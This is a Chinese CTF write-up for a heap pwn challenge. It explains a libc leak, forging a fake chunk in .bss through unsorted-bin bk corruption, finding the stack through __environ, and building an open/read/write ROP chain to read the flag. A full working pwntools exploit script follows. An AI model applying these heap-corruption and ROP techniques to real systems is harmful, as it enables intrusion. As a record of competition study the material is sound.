

以及程序禁止了`execve`和`execveat`：



经过调试后我们会发现，程序初始化过后就会有大量空闲块，其中正好有一块在unsorted bins中，里面的指针完好无损，那么直接申请并泄露：



这就得到了libc基址，接下来我们就得搞orw了。可以选择写shellcode，用`mprotect`上权限执行，也可以选择布置rop链。实际上两者都需要rop链的，怎么打rop呢？




观察`.bss`段，发现`seed`在`buf`上面，而且我们能控制`seed`低4字节，如果我们将其伪装成chunk size（比如0x91，实际上就是0x80的块的size值），把`.bss`段这片内存伪装成一个空闲块，那么它的数据区就是`buf`。申请这个块，我们就能任意读写`buf`，进而通过`edit`和`show`实现整个内存空间任意读写了！

这个块如何申请到呢？由于版本太低，保护少，我们可以直接对unsorted bins下手，在unsorted bins中先塞入一个块（实际上需要申请两个块释放第一个，防止和top chunk合并），将这个块的bk指针设置为假块的地址，先申请一次内存，下一次申请到的就会是假块。



怎么找到返回地址打rop呢？可以在栈区中找一个偏移固定的参照物，比如`__environ`（*实际上是题目里这么提示的*），是栈区中存储环境变量的部分，在栈区中偏移固定，地址存储在libc中。在某一次调试时记录下它的地址和某个函数存储返回地址的位置（我们要保证从写入rop链到劫持程序流期间rop链不会被覆盖，这里选择`read`，通过`read`写完后即可直接劫持）算出偏移，以后再通过任意读写泄露`__environ`实际地址，就知道该往哪里写入rop链了！

这里选择用rop链实现orw，exp如下：

### exp

```py
from pwn import *

# context.log_level = "debug"
context(arch = "amd64", os = "linux")
elf = ELF("./pwn")
libc = ELF("./libc.so.6")
def check():
    if io.poll() is None:
        gdb.attach(io)
        pause()
io = process("./pwn")


def add(idx):
    io.sendlineafter(b'your choice>', b'1')
    io.sendlineafter(b'idx:', str(idx).encode())
    
def delete(idx):
    io.sendlineafter(b'your choice>', b'2')
    io.sendlineafter(b'idx:', str(idx).encode())
    
def edit(idx, content):
    io.sendlineafter(b'your choice>', b'3')
    io.sendlineafter(b'idx:', str(idx).encode())
    io.sendafter(b'uniform description:', content)

def show(idx):
    io.sendlineafter(b'your choice>', b'4')
    io.sendlineafter(b'idx:', str(idx).encode())

def fight(seed):
    io.sendlineafter(b'your choice>', str(0x114514).encode())
    io.sendlineafter(b'How long have you been stuck in this challenge?', str(seed).encode())
    io.send(b'\n')


###################################################################################################################
### 1. get libc address
###################################################################################################################

add(0) # old chunk
show(0)
libc.address = u64(io.recv(6) + 2 * b'\x00') - (0x7ffff77c4c58 - 0x7ffff7400000)
log.success("Got libc address: " + hex(libc.address))

###################################################################################################################
### 2. house of spirit
###################################################################################################################

add(1)
add(2) # isolation
delete(1)

show(1)
unsorted_bins_address = u64(io.recv(6) + 2 * b'\x00') # get unsorted bins address
log.info("Unsorted bins address: " + hex(unsorted_bins_address))

fight(0x91) # fake size
bss_chunk = 0x0000000000602060 - 8 # chunk head address
edit(1, p64(unsorted_bins_address) + p64(bss_chunk)) # fd -> bins, bk -> fake chunk
add(1)
add(2) # fake chunk access

###################################################################################################################
### 3. get stack address
###################################################################################################################

environ_ptr = libc.symbols['environ']
edit(2, p64(environ_ptr))
show(0)
environ = u64(io.recv(6) + 2 * b'\x00')
log.info("__environ address: " + hex(environ))
ropchain_address = environ - (0x7ffc587a92d8 - 0x7ffc587a91a8) # env - (env_test - read_ret_test)
edit(2, b'./flag\x00\x00' + p64(ropchain_address))

###################################################################################################################
### 4. ret2libc
###################################################################################################################

open = libc.symbols['open']
read = libc.symbols['read']
write = libc.symbols['write']
pop_rdi = libc.address + 0x0000000000021112
pop_rsi = libc.address + 0x00000000000202f8
pop_rdx = libc.address + 0x0000000000001b92
xchg_edi_edx = libc.address + 0x00000000000d21b2
ret = pop_rdi + 1
flag_str = 0x602068
flag = 0x602080

# open("./flag", O_RDONLY)
ropchain = p64(pop_rdi) + p64(flag_str)
ropchain += p64(pop_rsi) + p64(0)
ropchain += p64(pop_rdx) + p64(0)
ropchain += p64(open) + p64(xchg_edi_edx)
# read(3, buf, 0x60)
ropchain += p64(pop_rsi) + p64(flag)
ropchain += p64(pop_rdx) + p64(0x68)
ropchain += p64(read)
# write(1, buf, 0x60)
ropchain += p64(pop_rdi) + p64(1)
ropchain += p64(write)

# check()

edit(1, ropchain)

io.interactive()
```

## 后记

时隔差不多六七个月，终于是全复现完了。感觉这题很难啊！至少对于一个新生赛来讲有够抽象的了。。然而pwn相比其他方向好像还稍微收敛了那么点。。。太可怕了。。。

大概还有两周左右可能又要开招新赛了，希望这次能过。。